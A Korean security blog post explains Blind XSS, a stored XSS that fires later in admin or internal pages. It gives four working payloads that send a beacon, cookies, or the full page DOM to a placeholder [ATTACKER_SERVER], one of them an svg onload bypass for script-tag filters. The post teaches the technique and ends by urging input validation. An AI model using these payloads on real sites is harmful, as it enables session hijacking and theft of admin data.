 ```yaml
---
layout: post
title:  "[웹 모의해킹] Blind XSS 란?"
date:   2025-07-16 21:03:00 +0900
categories: [Security]
tags: [xss, blind xss, 블라인드 xss]
---
```



# [웹 모의해킹] Blind XSS 란?

## 1. 블라인드 XSS(Blind XSS)란?

  - 블라인드 XSS는 공격자가 삽입한 악성 스크립트(페이로드)가 **"즉시 실행 결과를 반환하지 않고"**, 예측할 수 없는 시점과 장소에서 실행되는 **Stored XSS(저장형 XSS)**의 한 유형 입니다.
  - 일반적인 Stored XSS는 **공격자가 게시판에 악성 스크립트를 포함한 글을 작성**하면, **다른 사용자가 그 글을 읽는 즉시 공격이 실행되는 것을 확인**할 수 있습니다. 
  - 하지만 블라인드 XSS는 공격자가 입력한 페이로드가 데이터베이스 등에 저장되었다가, 공격자의 접근 권한이 없는 다른 페이지
  (예: 관리자 페이지, 내부 로그 분석 시스템 등)에서 해당 데이터를 조회할 때 비로소 실행됩니다.
  
---

### **주요 특징**

- **저장형 XSS의 하위 개념**
    - 악성 스크립트가 서버(데이터베이스, 로그 파일 등)에 저장된다는 점에서 저장형 XSS와 동일합니다.
- **예측 불가능한 실행 위치**
    - 스크립트가 일반 사용자 페이지가 아닌, **관리자 페이지, 내부 모니터링 시스템, 로그 분석기** 등 예상치 못한 곳에서 실행됩니다.
- **긴 잠복기**
    - 공격 스크립트가 삽입된 후 실행되기까지 몇 시간, 며칠, 심지어 몇 달이 걸릴 수도 있습니다.

---


## 2. 일반적인 저장형 XSS와의 차이점

알고 계신 일반적인 저장형 XSS와 블라인드 XSS의 가장 큰 차이점은 **'결과 확인의 즉시성'** 입니다.

| 구분 | 일반 저장형 XSS | 블라인드 XSS |
| :--- | :--- | :--- |
| **실행 위치** | 예측 가능 (게시판 등) | 예측 불가능 (관리자 페이지 등) |
| **결과 확인** | 직접 확인 가능 | 외부 콜백(Callback)으로 확인 |
| **주요 대상** | 일반 사용자 | 관리자 등 고권한자 |

---

## 3. 대표적인 페이로드(Payloads)

- 블라인드 XSS는 공격 결과를 직접 볼 수 없으므로, 페이로드의 핵심은 **"스크립트가 실행되었다는 사실"**과 **"탈취한 정보"**를 **"외부에서 확인"**할 수 있도록 하는 것 입니다.
- 이를 위해 보통 공격자가 제어할 수 있는 외부 서버로 정보를 전송하는 **"콜백(Callback) 형태의 페이로드"**를 사용 합니다.

### 1. 간단한 실행 확인 페이로드
- 가장 기본적인 페이로드는 스크립트가 실행되었음을 공격자의 서버로 알리는 것입니다. script 태그를 이용하는 것이 일반적입니다.

~~~javascript
<script>
  new Image().src="http://[ATTACKER_SERVER]/log?trigger=success";
</script> 
~~~

#### 1-1) 작동 원리
- new Image().src는 이미지 객체를 생성하고 src 속성에 명시된 URL로 HTTP 요청을 보냅니다. 
- 브라우저는 이 요청을 보내면서 공격자 서버의 로그에 기록을 남기게 됩니다. 이를 통해 공격자는 스크립트가 실행되었음을 알 수 있습니다.

---

### 2. 쿠키 정보 탈취 페이로드
- 관리자나 다른 사용자의 세션을 탈취하기 위해 쿠키 정보를 외부로 빼돌리는 페이로드입니다
~~~javascript
<script>
  new Image().src="http://[ATTACKER_SERVER]/log?cookie=" + btoa(document.cookie);
</script>
~~~

#### 2-1) 작동 원리
- document.cookie로 현재 페이지의 쿠키 정보를 가져옵니다. b
- toa() 함수를 사용해 쿠키 값을 Base64로 인코딩하여 URL 파라미터로 전송 시 발생할 수 있는 특수문자 문제를 방지합니다.
- 공격자는 자신의 서버 로그에서 인코딩된 쿠키 값을 확인할 수 있습니다.

---

### 3. 페이지의 DOM 정보 탈취 페이로드
- 스크립트가 실행된 페이지의 전체 HTML 구조(DOM)를 훔쳐내어, 내부 시스템의 구조나 숨겨진 정보를 파악하는 데 사용됩니다.
~~~javascript
<script>
  fetch('http://[ATTACKER_SERVER]/log', {
    method: 'POST',
    body: btoa(document.documentElement.outerHTML),
    headers: {'Content-Type': 'text/plain'}
  });
</script>
~~~

#### 3-1) 작동 원리
- document.documentElement.outerHTML로 현재 페이지의 html 태그를 포함한 전체 HTML을 가져옵니다.
- fetch API를 사용하여 POST 방식으로 공격자의 서버에 전송합니다.
- **대량의 데이터를 보내야** 하므로 GET 방식의 Image 트릭보다 **POST 방식이 더 적합**합니다.

---

### 4. 이벤트 핸들러를 이용한 우회 페이로드
- script 태그가 필터링될 경우, 다른 HTML 태그의 이벤트 핸들러를 이용해 스크립트를 실행할 수 있습니다.

~~~javascript
<svg onload="new Image().src='http://[ATTACKER_SERVER]/log?data='+btoa(document.cookie)">
~~~

#### 4-1) 작동 원리
- svg 태그가 로드될 때 onload 이벤트가 발생하며, 여기에 포함된 자바스크립트 코드가 실행됩니다. 
- 이 외에도 img onerror="..." / input onfocus="..." 등 다양한 이벤트 핸들러를 활용할 수 있습니다.


---

<br>

이처럼 블라인드 XSS는 즉각적인 피드백이 없어 탐지가 어렵지만, 일단 성공하면 관리자 권한 탈취, 내부망 정보 유출 등 심각한 피해로 이어질 수 있는 강력한 공격 기법입니다. 

따라서 개발 단계부터 사용자 입력값에 대한 철저한 검증과 시큐어 코딩 원칙을 준수하는 것이 매우 중요합니다.

<br>

---